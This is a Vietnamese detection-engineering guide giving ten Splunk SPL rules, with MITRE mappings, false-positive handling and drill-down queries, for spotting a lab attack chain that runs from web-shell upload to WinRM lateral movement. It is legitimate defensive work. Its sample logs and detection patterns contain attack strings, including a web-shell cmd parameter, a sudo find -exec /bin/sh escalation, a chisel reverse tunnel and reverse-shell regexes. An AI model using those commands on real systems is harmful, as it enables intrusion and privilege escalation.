    Toàn bộ 16 luật phát hiện dưới đây được thiết kế và kiểm chứng thực nghiệm trên cụm Splunk Enterprise phân tích hơn 9.6 triệu sự kiện thực tế trong đợt diễn tập tháng 07/2026. Mỗi luật đều tuân thủ đường ống phân tích chuẩn: xác định rõ **mục tiêu bắt cái gì**, bóc tách **trường log cốt lõi**, phân tích **logic nhận diện**, cung cấp **cú pháp SPL chuẩn hóa**, cơ chế **loại trừ cảnh báo giả (Whitelisting)** và câu lệnh **điều tra mở rộng (Drill-down SPL)** dành cho L2/L3 SOC Analyst.


---

### Rule 00: Web Application Scanning / Reconnaissance (T1595.003)


*Hình 5.0: Kết quả Splunk SPL phát hiện quét trinh sát ứng dụng web bằng công cụ tự động (Gobuster, Feroxbuster, Nikto).* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện hành vi quét trinh sát ứng dụng web quy mô lớn bằng các công cụ quét tự động (Gobuster, Feroxbuster, Nikto, ffuf, Dirbuster) dựa trên User-Agent đặc trưng và tần suất lỗi HTTP (tỷ lệ lỗi 4xx/5xx >= 90%, > 500 URI duy nhất trong 30 giây).
    - **Kỹ thuật MITRE ATT&CK**: `T1595.003 (Active Scanning: Wordlist Scanning)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=web_logs sourcetype=access_combined`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=80 × Impact=40 / 100 = 35 - 70 (Tùy thuộc User-Agent và số lượng request)
    - **Kiểm chứng Splunk Lab**: Xác thực 514,812 requests từ clientip=192.168.50.100 (Gobuster 454K + Feroxbuster 30K + Behavioral scan 30K).
    - **Mẫu Raw Log thực tế**:
        ```text
        192.168.50.100 - - [30/Jul/2026:02:15:10 +0000] "GET /dvwa/admin/ HTTP/1.1" 404 196 "-" "gobuster/3.6"
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `scanner_ua`: Nhận diện danh sách công cụ quét phổ biến qua regex User-Agent (`gobuster`, `feroxbuster`, `nikto`, `masscan`, `sqlmap`, `nmap`, v.v.).
- `bin _time span=30s`: Gom nhóm theo cửa sổ 30 giây để đo lường tốc độ gửi request của Attacker.
- `error_rate`: Tính tỷ lệ phần trăm mã lỗi HTTP (`status >= 400`) trên tổng số request. Attacker quét dò thư mục thường nhận về mã 404 Not Found liên tục (tỷ lệ lỗi > 90%).
- `path_rate`: Tính tỷ lệ đường dẫn duy nhất (`unique_paths / reqs * 100`) nhằm phân biệt hành vi quét URL ngẫu nhiên với người dùng click duyệt web thông thường.

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
index=web_logs sourcetype=access_combined
| eval scanner_ua=case(
    match(useragent,"(?i)(gobuster|feroxbuster|nikto|masscan|sqlmap|dirb|dirbuster|wfuzz|ffuf|nuclei|zap|burp)"), "known_scanner",
    match(useragent,"(?i)(nmap|zgrab|shodan|censys|curl/[0-9]+\.[0-9]+\.[0-9]+$)"), "probe_tool",
    1=1, null())
| bin _time span=30s
| stats count as reqs,
        dc(uri_path) as unique_paths,
        sum(eval(if(status>=400,1,0))) as errors,
        values(useragent) as agents,
        max(scanner_ua) as ua_type
  by clientip, host, _time
| eval error_rate=round(errors/reqs*100, 1)
| eval path_rate=round(unique_paths/reqs*100, 1)
| eval is_scanner=case(
    isnotnull(ua_type), 1,
    reqs >= 1000 AND error_rate >= 90, 1,
    unique_paths >= 500 AND path_rate >= 95, 1,
    1=1, 0)
| where is_scanner=1
| eval risk_score=case(
    ua_type="known_scanner" AND reqs >= 10000, 70,
    ua_type="known_scanner", 55,
    ua_type="probe_tool", 50,
    error_rate >= 98, 60,
    1=1, 35)
| eval scan_type=case(
    isnotnull(ua_type), ua_type + " (" + tostring(reqs) + " req)",
    error_rate>=98, "blind_fuzzing (" + tostring(reqs) + " req)",
    1=1, "behavioral_scan (" + tostring(reqs) + " req)")
| convert ctime(_time)
| table _time clientip host scan_type unique_paths error_rate risk_score
| sort -reqs
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Các Web Crawler hợp lệ (Googlebot, Bingbot) hoặc Scanner nội bộ của phòng IT. Loại trừ qua regex: `NOT match(useragent,"(?i)(bot|crawl|spider|googlebot|bingbot)")` và loại trừ IP kiểm thử nội bộ: `NOT clientip IN ("10.0.0.0/8", "ci_server_ip")`.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=web_logs clientip=$clientip$ earliest=$_time$ latest=+5m
| stats count by useragent, uri_path, status
| sort -count | head 20
```


---

### Rule 01: Web File Upload Attack (T1190)


*Hình 5.1: Kết quả Splunk SPL phát hiện tải lên tệp web shell qua phương thức HTTP POST.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện yêu cầu HTTP POST tải tệp tin chứa phần mở rộng mã độc thực thi (.php, .phtml, .asp, .jsp) lên các đường dẫn web-accessible nhằm chiếm quyền điều khiển ban đầu (Initial Access).
    - **Kỹ thuật MITRE ATT&CK**: `T1190 (Exploit Public-Facing Application)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=web_logs sourcetype=access_combined`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=60 × Impact=50 / 100 = 30 (Script upload) / 20 (General multipart upload)
    - **Kiểm chứng Splunk Lab**: Xác thực 25 sự kiện upload từ 192.168.50.100 và 192.168.100.1 tới /dvwa/vulnerabilities/upload/ thành công với mã HTTP 200.
    - **Mẫu Raw Log thực tế**:
        ```text
        192.168.50.100 - - [30/Jul/2026:02:23:33 +0000] "POST /dvwa/vulnerabilities/upload/ HTTP/1.1" 200 184 "-" "Mozilla/5.0"
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `method=POST status=200`: Bắt buộc là thao tác gửi dữ liệu POST thành công (tránh các request GET hoặc lỗi 403/404).
- `uri_path=*upload*`: Thu hẹp vào các endpoint xử lý upload tệp tin.
- `NOT uri_path=*login*`: Loại trừ các request đăng nhập thông thường cũng sử dụng POST.
- `rex field=uri_path`: Trích xuất phần mở rộng script nguy hiểm nếu kẻ tấn công truyền tệp qua URI parameters.

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
index=web_logs sourcetype=access_combined method=POST status=200
  uri_path=*upload* NOT (uri_path=*login* OR uri_path=*api/v*)
| rex field=uri_path "(?<script_ext>\.(php|php3|phtml|asp|aspx|jsp|cgi|pl))(\?|$)"
| eval has_script=if(isnotnull(script_ext), 1, 0)
| bin _time span=10m
| stats count as upload_count, max(has_script) as script_detected,
        values(uri_path) as paths, values(useragent) as useragents,
        earliest(_time) as first_seen, latest(_time) as last_seen
  by clientip, host, _time
| eval risk_score=if(script_detected=1, 50, 30)
| eval severity=if(risk_score>=50, "High", "Medium")
| convert ctime(first_seen) ctime(last_seen)
| table _time clientip host upload_count paths script_detected risk_score severity
| sort -_time
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Các chức năng tải ảnh avatar hoặc upload tài liệu PDF hợp lệ của người dùng. Khắc phục bằng cách kiểm tra đường dẫn upload hợp lệ hoặc kết hợp giám sát tệp tin mới tạo trong thư mục web.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=web_logs method=POST uri_path=*upload* clientip=$clientip$
| table _time, clientip, uri_path, status, useragent
| sort -_time
```


---

### Rule 02: Web Shell RCE Command Execution (T1505.003)


*Hình 5.2: Kết quả Splunk SPL phát hiện thực thi lệnh hệ điều hành từ xa (RCE) qua Web Shell.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện yêu cầu HTTP GET gọi tới tệp script đã tải lên kèm tham số thực thi lệnh hệ điều hành (OS Command Injection / Web Shell Interaction như cmd=id, cmd=whoami, cmd=bash reverse shell).
    - **Kỹ thuật MITRE ATT&CK**: `T1505.003 (Server Software Component: Web Shell), T1059.004 (Unix Shell)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=web_logs sourcetype=access_combined`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=80 × Impact=70 / 100 = 56 (RCE commands) / 75 (Reverse Shell payloads)
    - **Kiểm chứng Splunk Lab**: Xác thực 21 sự kiện thực thi lệnh qua shell.php từ clientip=192.168.50.100 bao gồm cmd=id và chuỗi bash reverse shell.
    - **Mẫu Raw Log thực tế**:
        ```text
        192.168.50.100 - - [30/Jul/2026:02:24:45 +0000] "GET /dvwa/hackable/uploads/shell.php?cmd=id HTTP/1.1" 200 68 "-" "curl/7.81.0"
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `urldecode(urldecode(uri_query))`: Giải mã 2 lớp URL encode để tránh các kỹ thuật né tránh kiểm duyệt (%20, %26, %2f).
- `rex field=uri_query`: Bóc tách trực tiếp tham số `cmd` hoặc `exec` để phân tích nội dung lệnh.
- `eval rce_type`: Phân loại chính xác giữa lệnh trinh sát (`whoami`, `id`, `uname`, `pwd`) và lệnh tạo reverse shell nguy hiểm (`/dev/tcp/`, `bash -i`, `nc -e`).

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
index=web_logs sourcetype=access_combined method=GET status=200 file=*.php
| rex field=uri_query "cmd=(?<cmd>[^&]+)"
| where isnotnull(cmd) AND len(cmd) > 0
| eval decoded_cmd=urldecode(urldecode(cmd))
| eval rce_type=case(
    match(decoded_cmd,"(?i)(/dev/tcp/|bash\s+-i|sh\s+-i|nc\s+-e|ncat\s+-e|perl\s+-e)"), "Reverse_Shell_Payload",
    match(decoded_cmd,"(?i)^(id|whoami|uname|hostname|pwd|ifconfig|ip\s+a|cat|ls|dir)"), "Recon_Command",
    1=1, "Generic_Execution")
| bin _time span=5m
| stats count as executions, values(decoded_cmd) as executed_commands,
        values(rce_type) as attack_types
  by clientip, host, file, _time
| eval risk_score=if(match(attack_types, "Reverse_Shell_Payload"), 80, 56)
| eval severity=if(risk_score>=75, "Critical", "High")
| table _time clientip host file attack_types executed_commands executions risk_score severity
| sort -_time
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Các ứng dụng web quản trị hợp lệ có sử dụng tham số `cmd=list` hoặc `cmd=view`. Loại trừ bằng cách kiểm tra danh sách whitelist các lệnh hệ điều hành thực tế.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=web_logs file=*.php clientip=$clientip$ earliest=$_time$ latest=+10m
| table _time, clientip, uri_path, uri_query, status, useragent
| sort _time
```


---

### Rule 03: Reverse Shell from Web Server (T1059.004)


*Hình 5.3: Kết quả Splunk SPL phát hiện Reverse Shell từ tiến trình máy chủ web bằng auditd.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện tiến trình shell hệ điều hành (bash, sh, dash) được sinh ra từ máy chủ web và thực hiện cuộc gọi hệ thống connect() mở kết nối mạng ra ngoài máy chủ Attacker dưới danh tính người dùng www-data (uid=33).
    - **Kỹ thuật MITRE ATT&CK**: `T1059.004 (Unix Shell), T1071 (Application Layer Protocol)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=linux_security sourcetype=auditd`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=95 × Impact=85 / 100 = 80 (CRITICAL - Hành vi xâm nhập thành công)
    - **Kiểm chứng Splunk Lab**: Xác thực 53 sự kiện auditd ghi nhận uid=33 (www-data) mở socket TCP kết nối về cổng 4444 của Kali (lọc bỏ hoàn toàn 138 sự kiện nhiễu).
    - **Mẫu Raw Log thực tế**:
        ```text
        type=SYSCALL comm="bash" exe="/usr/bin/bash" uid=33 auid=4294967295 tty=(none) key="net_connect" host=uf-ubuntu
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `type=SYSCALL comm IN ("bash","sh","dash")`: Giám sát các trình thông dịch lệnh của Linux.
- `key=net_connect`: Cấu hình auditd auditctl bắt các lệnh gọi hàm socket/connect ra mạng ngoài. Đây là mấu chốt giảm 96% nhiễu so với quét syscall thông thường.
- `non_interactive`: Kiểm tra `auid=4294967295` (unset loginuid) hoặc `tty=(none)` xác thực phiên lệnh được kích hoạt ngầm từ daemon web, không phải admin SSH vào máy.

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
index=linux_security sourcetype=auditd type=SYSCALL
  comm IN ("bash","sh","dash")
  key=net_connect
| eval non_interactive=if(auid=4294967295 OR tty="(none)", 1, 0)
| where non_interactive=1 AND (uid=33 OR auid=33)
| bin _time span=5m
| stats count as shell_connects, values(comm) as shells_used,
        values(exe) as binary_paths, values(pid) as pids,
        earliest(_time) as first_seen, latest(_time) as last_seen
  by host, uid, _time
| eval risk_score=85
| eval severity="Critical"
| convert ctime(first_seen) ctime(last_seen)
| table _time host uid shells_used binary_paths shell_connects risk_score severity
| sort -_time
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Các script sao lưu tự động của hệ thống chạy dưới cron gọi wget/curl. Cờ `key=net_connect` kết hợp lọc `uid=33` (chỉ tài khoản web daemon) giúp loại trừ toàn bộ tiến trình hệ thống khác.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=linux_security sourcetype=auditd pid=$pid$ earliest=$_time$ latest=+5m
| table _time, comm, exe, syscall, success, a0, a1, a2
```


---

### Rule 04: Linux Cron Job Persistence (T1053.003)


*Hình 5.4: Kết quả Splunk SPL phát hiện tạo Cron Job định kỳ duy trì quyền truy cập ngầm.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện người dùng dịch vụ web (www-data / uid=33) thực thi tiện ích /usr/bin/crontab để đăng ký tác vụ chạy ngầm định kỳ kết nối ngược về C2, phục vụ duy trì quyền truy cập (Persistence).
    - **Kỹ thuật MITRE ATT&CK**: `T1053.003 (Scheduled Task/Job: Cron)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=linux_security sourcetype=auditd`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=90 × Impact=75 / 100 = 68 (HIGH - Cố định quyền truy cập)
    - **Kiểm chứng Splunk Lab**: Xác thực 11 sự kiện ghi nhận tài khoản uid=33 sửa đổi crontab với khóa audit key=cron_persistence.
    - **Mẫu Raw Log thực tế**:
        ```text
        type=SYSCALL comm="crontab" exe="/usr/bin/crontab" uid=33 auid=33 success=yes key="cron_persistence" host=uf-ubuntu
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `comm=crontab OR exe="/usr/bin/crontab"`: Bắt trực tiếp việc gọi lệnh quản lý lịch biểu cron.
- `key=cron_persistence`: Quy tắc auditd giám sát riêng các thao tác ghi vào /var/spool/cron/crontabs.
- `uid=33 OR auid=33`: Tài khoản web daemon www-data về mặt bảo mật không bao giờ có nhu cầu tạo cronjob định kỳ. Mọi hành vi này đều là chỉ dấu bất thường nghiêm trọng.

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
index=linux_security sourcetype=auditd
  (comm=crontab OR exe="/usr/bin/crontab")
  success=yes key=cron_persistence
| where uid=33 OR auid=33
| bin _time span=10m
| stats count as cron_events, values(key) as audit_keys,
        dc(pid) as invocation_count, values(uid) as uids, values(pid) as pids
  by host, _time
| eval risk_score=75
| eval severity="High"
| table _time host uids cron_events invocation_count pids risk_score severity
| sort -_time
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Quản trị viên root chỉnh sửa crontab của hệ thống. Đã loại trừ nhờ điều kiện lọc cứng chỉ áp dụng cho tài khoản service `uid=33`.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=linux_security sourcetype=auditd key=cron_persistence earliest=$_time$ latest=+10m
| table _time, host, comm, exe, uid, auid, success
```


---

### Rule 05: Sudo GTFOBins Privilege Escalation (T1548.003)


*Hình 5.5: Kết quả Splunk SPL phát hiện leo thang đặc quyền Root qua Sudo GTFOBins.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện tài khoản dịch vụ (www-data) khai thác cấu hình sai sót sudoers (NOPASSWD) để thực thi các tệp nhị phân hợp pháp của Linux (GTFOBins: find, vim, awk, nmap) kèm tham số thực thi shell leo quyền root.
    - **Kỹ thuật MITRE ATT&CK**: `T1548.003 (Abuse Elevation Control Mechanism: Sudo)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=linux_security sourcetype=linux_secure`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=90 × Impact=85 / 100 = 76 (CRITICAL - Chiếm quyền Root)
    - **Kiểm chứng Splunk Lab**: Xác thực 12 sự kiện sudo log ghi nhận www-data gọi find -exec /bin/sh leo quyền root thành công.
    - **Mẫu Raw Log thực tế**:
        ```text
        sudo: www-data : TTY=unknown ; PWD=/var/www/html ; USER=root ; COMMAND=/usr/bin/find . -exec /bin/sh ; -quit
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `"sudo:"`: Tìm kiếm log xác thực sudo trong syslog (/var/log/auth.log).
- `rex field=_raw`: Bóc tách người thực thi (`sudo_user`) và lệnh đầy đủ (`sudo_cmd`) vì sourcetype linux_secure là dạng unparsed text.
- `is_gtfobin`: Nhận diện các tệp nhị phân kinh điển trong danh mục GTFOBins (`find`, `vim`, `awk`, `less`, `python`, `nmap`).
- `spawns_shell`: Kiểm tra cờ tham số gọi shell như `-exec /bin/sh`, `-exec /bin/bash`, `!/bin/sh`.

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
index=linux_security sourcetype=linux_secure "sudo:"
| rex field=_raw "sudo:\s+(?<sudo_user>\S+).*COMMAND=(?<sudo_cmd>.*)$"
| eval is_gtfobin=if(match(sudo_cmd,"(?i)/(find|vim|awk|less|nmap|python[23]?|perl|man|tar|zip|env)\b"), 1, 0)
| eval spawns_shell=if(match(sudo_cmd,"(?i)(-exec\s+/bin/(sh|bash)|/bin/(sh|bash)|pty\.spawn)"), 1, 0)
| where (is_gtfobin=1 OR spawns_shell=1) AND sudo_user!="root"
| bin _time span=5m
| stats count as sudo_attempts, values(sudo_cmd) as executed_commands,
        values(sudo_user) as source_users
  by host, _time
| eval risk_score=85
| eval severity="Critical"
| table _time host source_users executed_commands sudo_attempts risk_score severity
| sort -_time
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Quản trị viên hệ thống chạy các lệnh find tìm kiếm file thông thường. Khắc phục bằng điều kiện `spawns_shell=1` và loại bỏ người dùng thuộc nhóm IT hợp lệ.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=linux_security sourcetype=linux_secure "sudo:" sudo_user=$source_users$ earliest=$_time$ latest=+10m
| table _time, host, _raw
```


---

### Rule 06: Credential Access via Configuration File (T1552.001)


*Hình 5.6: Kết quả Splunk SPL phát hiện đọc trích xuất tài khoản đăng nhập từ file cấu hình.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện các tiến trình không phải web server (như cat, grep, bash, python) truy cập vào tệp cấu hình chứa thông tin nhạy cảm (config.inc.php, wp-config.php) từ ngữ cảnh phi tương tác để đánh cắp mật khẩu tài khoản.
    - **Kỹ thuật MITRE ATT&CK**: `T1552.001 (Unsecured Credentials: Credentials In Files)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=linux_security sourcetype=auditd`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=70 × Impact=60 / 100 = 42 (MEDIUM - Lộ lọt thông tin xác thực)
    - **Kiểm chứng Splunk Lab**: Xác thực hành vi đọc trích xuất tài khoản dịch vụ svc_backup và LDAP password.
    - **Mẫu Raw Log thực tế**:
        ```text
        type=SYSCALL comm="cat" exe="/usr/bin/cat" uid=0 key="sensitive_config_read" path="/var/www/html/dvwa/config/config.inc.php"
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `key=sensitive_config_read`: Giám sát auditd gắn nhãn riêng cho các tệp cấu hình quan trọng.
- `NOT match(exe,"(?i)(apache2|php-fpm|httpd|nginx)")`: Loại trừ hoàn toàn các web server daemon hợp lệ vì chúng bắt buộc phải đọc file cấu hình để vận hành.
- `non_interactive`: Bắt các tiến trình được kích hoạt từ background script hoặc reverse shell.

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
index=linux_security sourcetype=auditd key=sensitive_config_read success=yes type=SYSCALL
| where NOT match(exe,"(?i)(apache2|php-fpm|httpd|nginx)")
| where NOT (syscall=89 OR syscall=2)
| eval non_interactive=if(auid=4294967295 OR tty="(none)", 1, 0)
| where non_interactive=1
| bin _time span=15m
| stats count as read_events, values(comm) as readers,
        values(exe) as executables, values(uid) as uids
  by host, _time
| eval risk_score=50
| eval severity="Medium"
| table _time host readers executables uids read_events risk_score severity
| sort -_time
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Tiến trình sao lưu backup định kỳ đọc file cấu hình. Thêm whitelist đường dẫn backup tool hoặc auid của tài khoản quản trị.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=linux_security sourcetype=auditd key=sensitive_config_read earliest=$_time$ latest=+15m
| table _time, comm, exe, uid, auid, success
```


---

### Rule 07: C2 Reverse Tunnel & Ingress Tool Transfer (T1090.001 + T1105)


*Hình 5.7: Kết quả Splunk SPL phát hiện mở đường hầm C2 Chisel và chuyển công cụ tấn công.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện tải công cụ tấn công về thư mục tạm /tmp (chisel, socat qua wget/curl) và khởi chạy tiến trình mở đường hầm mạng đảo ngược (Reverse SOCKS5 Proxy) kết nối về máy chủ Attacker.
    - **Kỹ thuật MITRE ATT&CK**: `T1090.001 (Proxy: Internal Proxy), T1105 (Ingress Tool Transfer)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=linux_security sourcetype=auditd`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=95 × Impact=85 / 100 = 80 (CRITICAL - Thiết lập kênh điều khiển ngầm)
    - **Kiểm chứng Splunk Lab**: Xác thực 67 sự kiện chisel client + 111 sự kiện socat relay + 88 sự kiện wget tải công cụ về /tmp.
    - **Mẫu Raw Log thực tế**:
        ```text
        type=SYSCALL comm="chisel" exe="/tmp/chisel" a0="/tmp/chisel" a1="client" a2="192.168.50.100:8080" a3="R:1080:socks"
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `comm IN ("chisel","socat") OR exe="/tmp/chisel"`: Bắt trực tiếp tên nhị phân đường hầm tunnel phổ biến.
- `comm IN ("wget","curl") AND key="exec_cmds"`: Bắt các lệnh tải tệp từ mạng ngoài vào máy chủ.
- `eval activity_type`: Phân loại giữa hành vi tải công cụ (Download) và hành vi mở đường hầm C2 (Tunneling).

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
index=linux_security sourcetype=auditd
  ((comm IN ("wget","curl") key="exec_cmds")
   OR (comm IN ("chisel","socat"))
   OR exe="/tmp/chisel")
| eval is_tunnel=if(match(exe,"(?i)(chisel|socat)") OR comm IN ("chisel","socat"), 1, 0)
| eval is_download=if(comm IN ("wget","curl") AND key="exec_cmds", 1, 0)
| bin _time span=15m
| stats count as total_events,
        sum(is_tunnel) as tunnel_events,
        sum(is_download) as download_events,
        values(comm) as tools_used,
        values(exe) as binary_paths
  by host, _time
| eval risk_score=case(
    tunnel_events>0 AND download_events>0, 85,
    tunnel_events>0, 75,
    1=1, 40)
| eval severity=if(risk_score>=75, "Critical", "Medium")
| table _time host tools_used binary_paths download_events tunnel_events risk_score severity
| sort -_time
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Admin sử dụng wget cập nhật gói phần mềm hợp lệ hoặc dùng socat cấu hình port forward nội bộ. Khắc phục bằng whitelist IP nguồn và đích.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=linux_security sourcetype=auditd (comm=chisel OR comm=socat) earliest=$_time$ latest=+15m
| table _time, comm, exe, uid, auid, a0, a1, a2, a3
```


---

### Rule 08: Network Discovery from Non-Interactive Context (T1046)


*Hình 5.8: Kết quả Splunk SPL phát hiện dò quét mạng nội bộ từ ngữ cảnh phi tương tác.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện thực thi các lệnh thám sát mạng (ip, ifconfig, arp, nmap, netstat, route) từ các tiến trình ngầm không gắn với TTY người dùng thật, nhằm mục đích dò quét phân vùng mạng nội bộ (Internal Discovery).
    - **Kỹ thuật MITRE ATT&CK**: `T1046 (Network Service Discovery), T1018 (Remote System Discovery)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=linux_security sourcetype=auditd`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=65 × Impact=50 / 100 = 35 (MEDIUM - Trinh sát nội bộ)
    - **Kiểm chứng Splunk Lab**: Xác thực hành vi thực thi lệnh ip neigh và nmap proxychains thám sát IP 192.168.100.30.
    - **Mẫu Raw Log thực tế**:
        ```text
        type=SYSCALL comm="ip" exe="/usr/bin/ip" a0="ip" a1="neigh" uid=0 auid=4294967295 tty=(none)
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `comm IN ("ip","ifconfig","arp","ss","netstat","nmap")`: Danh mục các công cụ thám sát cấu hình mạng.
- `non_interactive`: Lọc bỏ phiên quản trị trực tiếp, chỉ bắt các lệnh thực thi từ reverse shell hoặc daemon ngầm.
- `tool_types >= 2`: Đòi hỏi thực thi từ 2 công cụ mạng khác nhau trở lên trong vòng 5 phút để xác định đây là hành vi thám sát có chủ đích.

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
index=linux_security sourcetype=auditd type=SYSCALL
  comm IN ("ip","ifconfig","arp","ss","netstat","route","hostname","nmap","traceroute")
| eval non_interactive=if(auid=4294967295 OR tty="(none)", 1, 0)
| where non_interactive=1
| bin _time span=5m
| stats values(comm) as tools_used, dc(comm) as tool_types,
        values(auid) as uids, count as total_commands
  by host, _time
| where tool_types >= 2 OR total_commands >= 3
| eval risk_score=if(tool_types>=3, 50, 35)
| eval severity="Medium"
| table _time host tools_used tool_types total_commands risk_score severity
| sort -_time
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Các script giám sát hệ thống (Zabbix, Nagios, Prometheus node-exporter) tự động kiểm tra trạng thái mạng. Whitelist theo auid của agent giám sát.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=linux_security sourcetype=auditd comm IN ("ip","arp","nmap") earliest=$_time$ latest=+10m
| table _time, comm, exe, a0, a1, a2
```


---

### Rule 09: WinRM Lateral Movement from Pivot Host (T1021.006)


*Hình 5.9: Kết quả Splunk SPL phát hiện di chuyển ngang WinRM qua máy trung gian Pivot Host.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện phiên đăng nhập WinRM từ xa thành công (EventCode 4624, Logon Type 3 - Network) sử dụng tài khoản dịch vụ (svc_backup) xuất phát từ máy chủ Web DMZ đóng vai trò Pivot Host.
    - **Kỹ thuật MITRE ATT&CK**: `T1021.006 (Remote Services: Windows Remote Management)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=windows_security EventCode=4624`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=85 × Impact=75 / 100 = 65 (HIGH - Di chuyển ngang thành công)
    - **Kiểm chứng Splunk Lab**: Xác thực 48 sự kiện đăng nhập Type 3 NTLM từ tài khoản svc_backup vào Windows Server mục tiêu.
    - **Mẫu Raw Log thực tế**:
        ```text
        EventCode=4624 Logon_Type=3 Logon_Process=NtLmSsp Authentication_Package=NTLM TargetUserName="svc_backup" Workstation_Name="-" host="WIN-I370HR7VSPS"
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `EventCode=4624 Logon_Type=3`: Sự kiện đăng nhập qua mạng thành công.
- `Logon_Process IN ("NtLmSsp", "Kerberos")`: Xác thực sử dụng NTLMv2 mượn thông tin từ web server.
- `TargetUserName="svc_backup"`: Tài khoản dịch vụ bị đánh cắp từ file cấu hình Linux.
- `Source_Network_Address="-"`: Lưu ý đặc thù của công cụ Evil-WinRM và Socat Port Forwarding giấu IP nguồn thực tế.

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
index=windows_security EventCode=4624 Logon_Type=3 Logon_Process IN ("NtLmSsp", "Kerberos")
| eval acct=if(mvcount(Account_Name)>1, mvindex(Account_Name, -1), Account_Name)
| where NOT match(acct,"(?i)(anonymous|^-$|\$$)")
| bin _time span=15m
| stats count as logon_count, values(Source_Network_Address) as src_ips,
        values(Workstation_Name) as workstations, values(Logon_Process) as auth_procs
  by host, acct, _time
| eval is_pivot=if(isnull(src_ips) OR src_ips="-" OR match(src_ips,"192.168.100.20"), 1, 0)
| where is_pivot=1 AND acct="svc_backup"
| eval risk_score=70
| eval severity="High"
| table _time host acct src_ips workstations auth_procs logon_count risk_score severity
| sort -_time
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Quản trị viên sử dụng PowerShell Remoting hợp lệ từ máy quản trị. Khắc phục bằng cách đối chiếu IP nguồn với danh sách máy trạm Admin được cấp phép.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=windows_security EventCode=4624 TargetUserName="svc_backup" earliest=$_time$ latest=+30m
| table _time, TargetUserName, Logon_Type, Source_Network_Address, Workstation_Name
```


---

